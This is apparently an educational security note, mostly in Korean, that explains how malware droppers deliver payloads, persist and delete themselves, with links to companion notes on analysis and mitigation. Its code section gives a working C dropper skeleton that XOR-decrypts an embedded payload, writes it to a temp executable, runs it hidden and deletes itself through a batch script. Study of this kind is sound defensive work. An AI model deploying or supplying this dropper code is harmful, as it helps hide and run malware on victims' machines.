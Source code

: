 ## Context

- **Tactic**: Malware Delivery Understanding
- **Technique**: Payload Deployment Analysis
- **Procedure**: Deconstruct dropper behavior and execution stages

## Core Idea

### Dropper란?
- Dropper는 **악성코드 배포를 위한 운반체(배달 상자)** 역할을 수행하는 프로그램이다.
- 최종적으로 실행될 `페이로드(랜섬웨어, RAT, 백도어 등)`를 시스템에 **드롭(Drop)**하여 실행 환경을 구성한다.
- 스스로 악의적인 행동을 수행하지 않으며, **페이로드를 안전하게 전달하고 실행하는 것이 주목적**이다.

![Dropper Schematic Diagram](./images/dropper-schematic-diagram.png)
**Figure 1.** dropper schematic diagram
### Dropper의 특징
- **탐지 회피**: 암호화된 형태로 페이로드를 포함하여 보안 솔루션의 탐지를 우회.
- **다양한 실행 방식**: 디스크에 파일을 저장하거나, 메모리에 직접 로드하여 실행 가능.
- **지속성 유지**: 레지스트리 등록, 작업 스케줄러 설정 등을 통해 시스템 재부팅 후에도 동작할 수 있음.
- **자기 삭제 기능**: 실행 후 탐지를 피하기 위해 흔적을 자동으로 제거 가능.

### Dropper 동작 흐름
![Dropper Execution Flow](./images/dropper-execution-flow.png)
**Figure 2.** dropper execution flow

1. **Dropper 실행** → 사용자가 Dropper(악성 실행 파일)를 실행
2. **페이로드 저장 (Dropping)**: 악성 페이로드를 저장하는 과정 수행
	- **디스크 저장:** `CreateFileA` → `WriteFile` 을 사용하여 디스크에 파일 드롭
	- **메모리 저장:** 페이로드를 메모리에 직접 로드(Reflective DLL Injection 등)하여 실행
3. **페이로드 실행 방식**: 저장된 페이로드를 실행하는 방식 선택
	- **디스크 실행:** `CreateProcessA/W`, `ShellExecute`를 사용하여 페이로드 실행
	- **메모리 인젝션:** `NtMapViewOfSection`, `VirtualAllocEx`, `WriteProcessMemory`, `CreateRemoteThread` 등을 활용하여 다른 프로세스에 코드 인젝션 후 실행
4. **지속성 확보 (Persistence)**: 악성코드가 재부팅 후에도 실행되도록 설정 가능
	- **레지스트리 수정:** `RegSetValueExA/W`사용, 스타트업, Run 키 등을 수정해 자동 실행 설정
	- **작업 스케줄러 사용:** `schtasks /create` 통해 예약 작업(Task Scheduler)으로 자동 실행 설정
5. **자기 삭제 (Self-Delete)**: 실행 후 탐지를 피하기 위해 자기 자신을 삭제
	- **즉시 삭제:** `cmd /c del` 명령어 실행하여 즉시 파일 삭제
	- **재부팅 후 삭제:** `MoveFileExA`를 사용하여 재부팅 시 삭제 예약

## Code / Experiment
```c
#include <windows.h>
#include <stdio.h>
#include <shlobj.h>

// XOR encryption/decryption
void xor_cipher(char *data, size_t data_len, const char *key, size_t key_len) {
    for (size_t i = 0; i < data_len; i++) {
        data[i] ^= key[i % key_len];
    }
}

int main() {
    char tempPath[MAX_PATH], payloadPath[MAX_PATH], batchPath[MAX_PATH];
    char encryptedPayload[] = "ENCRYPTED_PAYLOAD_PLACEHOLDER";
    const char encryptionKey[] = "SECRET_KEY";

    // Generate random file path in temp directory
    GetTempPathA(MAX_PATH, tempPath);
    sprintf(payloadPath, "%s%08x.exe", tempPath, rand());

    // Decrypt payload in memory
    char *decryptedPayload = malloc(sizeof(encryptedPayload));
    memcpy(decryptedPayload, encryptedPayload, sizeof(encryptedPayload));
    xor_cipher(decryptedPayload, sizeof(encryptedPayload), encryptionKey, sizeof(encryptionKey) - 1);

    // Write decrypted payload to disk
    HANDLE hFile = CreateFileA(payloadPath, GENERIC_WRITE, 0, NULL,
                                CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile != INVALID_HANDLE_VALUE) {
        DWORD written;
        WriteFile(hFile, decryptedPayload, sizeof(encryptedPayload), &written, NULL);
        CloseHandle(hFile);
        free(decryptedPayload);

        // Execute payload
        STARTUPINFOA si = { .cb = sizeof(si), .dwFlags = STARTF_USESHOWWINDOW, .wShowWindow = SW_HIDE };
        PROCESS_INFORMATION pi;
        CreateProcessA(payloadPath, NULL, NULL, NULL, FALSE, CREATE_NO_WINDOW, NULL, NULL, &si, &pi);
        CloseHandle(pi.hProcess); CloseHandle(pi.hThread);

        // Create batch script for self-deletion
        sprintf(batchPath, "%sdelete.bat", tempPath);
        HANDLE hBatch = CreateFileA(batchPath, GENERIC_WRITE, 0, NULL,
                                    CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
        if (hBatch != INVALID_HANDLE_VALUE) {
            char batchContent[512];
            sprintf(batchContent,
                "@echo off\n"
                ":repeat\n"
                "del \"%s\"\n"
                "if exist \"%s\" goto repeat\n"
                "del \"%s\"\n",
                __argv[0], __argv[0], batchPath);
            WriteFile(hBatch, batchContent, strlen(batchContent), &written, NULL);
            CloseHandle(hBatch);
            WinExec(batchPath, SW_HIDE);
        }
    } else {
        free(decryptedPayload);
    }

    return 0;
}
```

## Note

> One of several TTP-focused notes dissecting dropper mechanics.

**[dropper-overview.md](dropper-overview.md)**
- **Tactic:** Malware Delivery Understanding
- **Technique:** Payload Deployment Analysis
- **Procedure:** Deconstruct dropper behavior and execution stages

**[dropper-simulation.md](dropper-simulation.md)**
- **Tactic**: Stealth Engineering
- **Technique**: Dropper Simulation & In-Memory Execution Models
- **Procedure**: Simulate dropper behavior including persistence, obfuscation, anti-analysis, and payload deployment

**[dropper-alternative-vectors.md](dropper-alternative-vectors.md)**
- **Tactic**: - Alternative Execution Surface Exploration
- **Technique**: Interpreter-Based Payload Delivery
- **Procedure**: Leverage system interpreters to deliver payloads, evade static detection, and perform in-memory execution across platforms

**dropper-analysis-methods.md**
- **Tactic:** Threat Traceability
- **Technique:** Static & Dynamic Binary Analysis
- **Procedure:** Investigate dropper internals using r2, volatility, and process monitors

**dropper-code-deepdive.md**
- **Tactic:** Execution Mechanics Exploration
- **Technique:** Process Injection & Anti-Analysis
- **Procedure:** Reverse-engineer memory injection, control flow, and evasion logic

**dropper-mitigation.md**
- **Tactic:** Adaptive Defense Modeling
- **Technique:** Behavior Profiling & ML-Aided Detection
- **Procedure:** Design countermeasures using event logging, hardening, and ML classifiers
